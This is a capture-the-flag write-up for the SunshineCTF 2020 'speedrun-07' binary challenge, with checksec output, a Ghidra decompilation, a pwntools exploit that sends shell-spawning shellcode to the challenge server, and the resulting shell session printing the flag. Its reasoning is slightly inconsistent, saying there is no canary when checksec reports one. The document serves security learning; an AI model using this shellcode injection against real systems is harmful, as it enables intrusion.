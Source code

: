 # **speedrun-07**
## Task
nc chal.2020.sunshinectf.org 30007
File: chall_07
Tag: binary exploitation 

## Solution

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
* NX disabled and has RWX assume inject shellcode
* System 64 bit
### Decompile with ghidra
```c
void main(void)
{
  long in_FS_OFFSET;
  char local_f8 [32];
  undefined local_d8 [200];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("In the land of raw humanity");
  fgets(local_f8,0x13,stdin);
  fgets(local_d8,200,stdin);
  (*(code *)local_d8)();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
No canary so no BOF here,But NX disabled so we can write out the shellcode to `local_8d` and `(*(code *)local_d8)();` will help us to execute the shellcode. Just a pieces challenge !!

### Exploit
```python
from pwn import *
binary = context.binary = ELF('./chall_07')
p = remote('chal.2020.sunshinectf.org',30007)
p.sendline('IxZ')
payload = asm(shellcraft.sh())
p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_07'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30007: Done
[*] Switching to interactive mode
In the land of raw humanity$ ls
chall_07
flag.txt
$ cat flag.txt
sun{sidewinder-a80d0be1840663c4}
$ 
```